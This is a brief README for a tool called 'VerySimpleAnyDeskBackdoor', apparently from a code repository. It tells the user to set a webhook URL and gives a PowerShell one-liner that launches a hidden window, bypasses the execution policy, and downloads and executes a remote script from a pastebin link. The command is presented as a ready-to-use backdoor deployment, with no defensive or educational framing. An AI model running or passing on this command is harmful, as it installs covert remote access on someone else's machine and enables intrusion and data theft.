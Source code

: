 # VerySimpleAnyDeskBackdoor

Don't forget to change the $webhookUrl parameter to your desired one.
Run this as a oneliner:
```
Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/wR5bkkut')"
```
